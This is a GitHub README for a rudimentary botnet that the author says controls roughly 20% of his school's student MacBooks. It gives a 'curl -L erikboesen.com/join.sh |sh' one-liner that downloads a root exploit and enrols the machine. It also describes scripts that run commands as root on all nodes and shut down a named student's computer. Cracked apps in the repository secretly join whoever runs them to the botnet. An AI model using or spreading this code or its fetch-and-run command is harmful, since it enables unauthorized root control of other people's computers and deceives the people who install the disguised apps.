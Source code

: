 # net
Some code which I use to run a rudimentary botnet which controls roughly 20% of the MacBooks my school provides to students.

This code only really works with MacBooks using OS X 10.11.6 and before. The joining scripts make some assumptions about configuration since they're only designed to be run on GMHS MacBook Airs.

I do not endorse the use of this code for malicious purposes.

## How it works
### Listening
The botnet is controlled by a simple Python script which opens a socket on port `2043`. Currently the server simply listens for incoming connections and accepts data on new nodes, which are then stored in `nodes.txt`.

### Joining
Two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-run joining: it will download the exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically, which will handle joining the botnet. This mitigates the need to manually download the exploit, mark it as executable, run it, bla bla bla. Just run this script and you'll be good.

Here's a simple one-liner to join the botnet (all the scripts are up on my website for URL simplicity):

```sh
curl -L erikboesen.com/join.sh |sh
```

### Controlling
Running `run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command as root. You can also run `up.sh` to view which/how many nodes are online. `die.sh` will kill open applications, turn off the screen, and initiate shutdown on the computer owned by the student with the provided username. Note: Don't do this.  

### Apps
The `apps` directory contains some cracked versions of various applications which are blocked on our MacBooks. These versions will work on our MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
